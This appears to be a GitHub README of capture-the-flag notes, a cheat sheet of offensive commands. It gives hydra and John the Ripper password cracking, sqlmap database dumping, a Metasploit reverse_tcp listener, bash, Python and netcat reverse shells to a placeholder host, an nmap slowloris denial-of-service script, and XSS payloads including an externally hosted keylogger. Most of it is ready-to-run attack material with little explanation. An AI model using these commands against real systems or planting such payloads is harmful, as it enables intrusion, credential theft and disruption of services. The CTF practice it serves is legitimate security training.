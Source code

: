 # 🛡️ CTF Writeups

A collection of useful commands and notes for Capture The Flag (CTF) competitions.

---

## 📋 Table of Contents

1. [Basic Commands](#basic-commands)
2. [Advanced Commands](#advanced-commands)
3. [Nmap Usage](#nmap-usage)
4. [Random Points from TryHackMe (THM)](#random-points-from-tryhackme-thm)
5. [Additional Resources](#additional-resources)
6. [Conclusion](#conclusion)

---

## Basic Commands

- **zip2john**: Convert a ZIP file to a format that John the Ripper can crack.
    ```sh
    zip2john file.zip > file.zip.hash
    john file.zip.hash
    ```

- **gobuster**: Directory/file brute-forcing tool.
    ```sh
    gobuster dir -u TARGET -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    ```

- **find**: Search for files.
    ```sh
    find / -type f -regex '.*skat.txt$' 2> /dev/null
    find / -name findme.txt 2> test.txt
    ```

- **nmap**: Network scanner.
    ```sh
    nmap -T4 -A -p- TARGET -oN nmap.txt
    ```

- **hydra**: Password cracking tool.
    ```sh
    hydra -l mark -P /usr/share/wordlists/rockyou.txt IP_Address ssh
    hydra -l admin -x 4:4:MLVICDX -vV sshhydra.com ssh
    hydra -l admin -P /usr/share/john/password.lst -vV ftplogin.com ftp
    ```

---

## Advanced Commands

- **Nmap Scripts**: Use NSE scripts to identify vulnerabilities.
    ```sh
    nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p PORT -T4 IP_Address
    nmap --script http-slowloris --max-parallelism 400 IP_Address
    ```

- **SQLMap**: Automatic SQL injection and database takeover tool.
    ```sh
    sqlmap -u "http://target.com/vulnerable_param" --batch --dbs
    sqlmap -u "http://target.com/vulnerable_param" -D database_name --tables
    sqlmap -u "http://target.com/vulnerable_param" -D database_name -T table_name --columns
    sqlmap -u "http://target.com/vulnerable_param" -D database_name -T table_name -C column_name --dump
    ```

- **Metasploit**: Penetration testing framework.
    ```sh
    msfconsole
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST your_ip
    set LPORT your_port
    exploit
    ```

- **Burp Suite**: Web vulnerability scanner.
    - **Intruder**: Use Intruder to brute force login forms or find hidden parameters.
    - **Repeater**: Manually send and analyze HTTP requests.

- **Exploiting SMB**:
    ```sh
    smbclient -L //TARGET_IP -U username
    smbmap -H TARGET_IP
    ```

- **Reverse Shells**:
    - **Bash**:
        ```sh
        bash -i >& /dev/tcp/your_ip/your_port 0>&1
        ```
    - **Python**:
        ```python
        python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your_ip",your_port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
        ```
    - **Netcat**:
        ```sh
        nc -e /bin/sh your_ip your_port
        ```

---

## Nmap Usage

- **OS Detection**:
    ```sh
    nmap -O TARGET
    ```
- **Service Version Detection**:
    ```sh
    nmap -sV TARGET
    ```
- **Stealth Scan**:
    ```sh
    nmap -sS TARGET
    ```
- **Aggressive Scan**:
    ```sh
    nmap -A TARGET
    ```

---

## Random Points from TryHackMe (THM)

- **Popups**:
    ```html
    <script>alert("Hello World")</script>
    ```
    Creates a Hello World message popup on a user's browser.

- **Writing HTML**:
    ```javascript
    document.write("Your HTML code here");
    ```
    Override the website's HTML to add your own content.

- **XSS Keylogger**: Capture keystrokes of a user.
    ```html
    <script src="http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js"></script>
    ```

- **Port Scanning**:
    ```html
    <script src="http://www.xss-payloads.com/payloads/scripts/portscanapjs.js"></script>
    ```

---

## Additional Resources

- [GTFOBins](https://gtfobins.github.io/): Unix binaries that can be used to bypass local security restrictions.
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings): A list of useful payloads and bypasses for Web Application Security.
- [HackTricks](https://book.hacktricks.xyz/): A comprehensive guide for penetration testing and CTF challenges.

---
